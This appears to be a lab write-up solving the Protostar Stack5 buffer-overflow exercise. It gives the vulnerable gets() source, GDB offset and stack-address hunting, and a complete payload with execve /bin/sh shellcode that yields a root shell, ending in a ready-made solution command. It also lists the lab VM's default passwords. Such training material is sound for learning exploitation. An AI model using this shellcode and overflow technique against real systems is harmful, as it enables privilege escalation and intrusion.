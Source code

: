 # Protostar - Stack5
* Getting started
    
    Once the virtual machine has booted, you are able to log in as the “user” account with the password “user” (without the quotes).
    The levels to be exploited can be found in the /opt/protostar/bin directory.
    For debugging the final levels, you can log in as root with password “godmode” (without the quotes)


* Core Files

    README! The /proc/sys/kernel/core_pattern is set to /tmp/core.%s.%e.%p. This means that instead of the general ./core file you get, it will be in a different directory and different file name.


## __Stack5__
* About
  Stack5 is a standard buffer overflow, this time introducing shellcode.

  This level is at /opt/protostar/bin/stack5

  Hints
    * At this point in time, it might be easier to use someone elses shellcode
    * If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
    * remove the int3s once your shellcode is done.


* Source Code 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}

```
   
  Now, we will not point EIP to somewhere else but we will place our shell code on to the stack an point EIP to our shellcode to get shell when the program return.

  First, we have to see what is the exact position of EIP by using pattern_create.rb
```
root@BOEING:~# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

```
(gdb) run
Starting program: /opt/protostar/bin/stack5 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
(gdb) 
```

```
root@BOEING:~# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x63413563
[*] Exact match at offset 76
```

  The exect position is 76. So we can construct our payload without shellcode, The BBBB was supposed to be address stack that contain our input buffer.
  > python -c 'print("A"*(76) + "BBBB")' | /opt/protostar/bin/stack5

  We have to find 2 more thing, the first one is the shellcode. I use generic 49-byte shellcode.
```
\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x42\x42\x42\x42
```

  Due to the length of shellcode is 49 bytes so we have to decrease number of dummy character (76 - 49 = 27)
  > python -c 'print("A"*(27) + "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x42\x42\x42\x42" + "BBBB")' | /opt/protostar/bin/stack5

  I'll change "A"s to "\x90" which mean do nothing in assembly language to increase chance that the EIP will land to our shellcode.
  > python -c 'print("\x90"*(27) + "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x42\x42\x42\x42" + "BBBB")' | /opt/protostar/bin/stack5

  The last thing we must findout is where is the address of stack that we will force EIP to point to. For this step I'll use GDB to debug and find where is address of the stack that contain buffer.

```
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   %ebp
0x080483c5 <main+1>:    mov    %esp,%ebp
0x080483c7 <main+3>:    and    $0xfffffff0,%esp
0x080483ca <main+6>:    sub    $0x50,%esp
0x080483cd <main+9>:    lea    0x10(%esp),%eax
0x080483d1 <main+13>:   mov    %eax,(%esp)
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave  
0x080483da <main+22>:   ret    
End of assembler dump.
(gdb) b *main+21
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) run 
Starting program: /opt/protostar/bin/stack5 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffff884) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) x/40xw $esp
0xbffff780:     0xbffff790      0xb7ec6165      0xbffff798      0xb7eada75
0xbffff790:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff7a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff7b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff7c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff7d0:     0x08004141      0x00000000      0xbffff858      0xb7eadc76
0xbffff7e0:     0x00000001      0xbffff884      0xbffff88c      0xb7fe1848
0xbffff7f0:     0xbffff840      0xffffffff      0xb7ffeff4      0x08048232
0xbffff800:     0x00000001      0xbffff840      0xb7ff0626      0xb7fffab0
0xbffff810:     0xb7fe1b28      0xb7fd7ff4      0x00000000      0x00000000
(gdb) 
```

  The address is between 0xbffff790 to 0xbffff7d2. So let use 0xbffff7490 (don't forget to reverse the address to \x90\xf7\xff\xbf)
  > python -c 'print("\x90"*(27) + "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x42\x42\x42\x42" + "\x90\xf7\xff\xbf")' > /tmp/exploit5

```
(gdb) run < /tmp/exploit5 
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit5

Breakpoint 1, main (argc=0, argv=0xbffff884) at stack5/stack5.c:11
11      in stack5/stack5.c
(gdb) c
Continuing.
Executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.

Program exited normally.
```

What? how can this suppose to happen, after spend many days to findout what's going wrong. I've found that we could run the shellcode in another way to exploit vulnerable program outside GDB refer to this [link](https://security.stackexchange.com/questions/73878/program-exiting-after-executing-int-0x80-instruction-when-running-shellcode).

```
user@protostar:~$ cat /tmp/exploit5 - | /opt/protostar/bin/stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
^C
user@protostar:~$ whoami
user
```

### _Solution_
```
python -c 'print("\x90"*(76-49) + "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x42\x42\x42\x42" + "\x90\xf7\xff\xbf")' > /tmp/exploit5
```

```
user@protostar:~$ cat /tmp/exploit5 - | /opt/protostar/bin/stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
^C
user@protostar:~$ whoami
user
```

